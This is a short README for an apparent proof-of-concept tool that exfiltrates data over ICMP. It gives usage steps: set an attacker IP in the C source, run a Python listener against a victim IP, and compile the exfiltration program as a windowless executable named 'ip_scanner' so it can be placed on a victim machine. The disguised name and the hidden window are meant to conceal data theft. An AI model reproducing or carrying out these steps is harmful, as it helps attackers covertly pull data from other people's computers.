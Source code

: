 # ICSDSimulation-POC
ICMP Exfiltration without creating any files or processes
**Change the IP Address in the icmp_exfil.c before compiling**
## Listener
python2 listener.py source_ip victim_ip

## Victim
First compile
gcc icmp_exfil.c -o ip_scanner -mwindows
Then throw the exe on the victim machine
